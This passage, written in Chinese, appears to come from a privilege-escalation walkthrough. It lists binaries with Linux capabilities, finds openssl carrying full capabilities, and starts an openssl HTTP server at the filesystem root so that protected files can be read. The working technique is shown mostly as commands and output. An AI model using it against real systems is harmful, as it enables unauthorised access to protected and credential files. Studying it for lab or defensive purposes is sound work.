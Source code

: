 查找具有 capabilities 权限属性的二进制文件：

```console
$ getcap -r / 2>/dev/null
/snap/core20/1974/usr/bin/ping cap_net_raw=ep
/snap/core20/1405/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/openssl =ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
```

capabilities 提权，利用 openssl 开启一个本地 web 服务来读取文件：

```console
$ openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes
.+.......+..+...+...+.......+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*.....+.................+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*..+...+............+......+........+.+...+.....................+.................+...............+.............+.........+.....+...+...+....+......+..+....+...+.....+......+.+...............+.....+.+.........+...+..+.+........+....+.....+....................................+.......+..+.............+............+..+.........+.+.....+.........+......+.+..+...+............+.......+...+...+..+......+.......+...+......+........+.+..+.......+...........+......+.+..............+.+.........+...+..+....+...............+..+...+.........+......+......+.+...............+..+.......+...+...........+......+.+.....+....+........+......+.......+..+.+.....+.+.....+....+...........+....+..+....+.....+.+..+...+.......+....................+.+......+..............+.+...+...+...+.........+...+...............+...+.................+.......+..+....+.....+..........+...............+.........+...+...+..+....+...+..+..........+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
....+..................+...+...........+.+...+......+...+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*..+....+...+...+...+.........+..+.+..+.+.....+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*......+.+.....+.+........+............+....+..+...+.......+.........+...........+....+...+............+.....+.+.........+.........+...........+.+..+..........+...+...+..+.........+.+.....+............+.+......+...........+...+.........+.............+..+...+...+.+........+...+..........+............+..+......+.........+....+...............+.........+..+..................+...+....+...+..+......+...+....+..+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
$ pwd
/
$ openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 8080 -HTTP
Using default temp DH parameters
ACCEPT
```
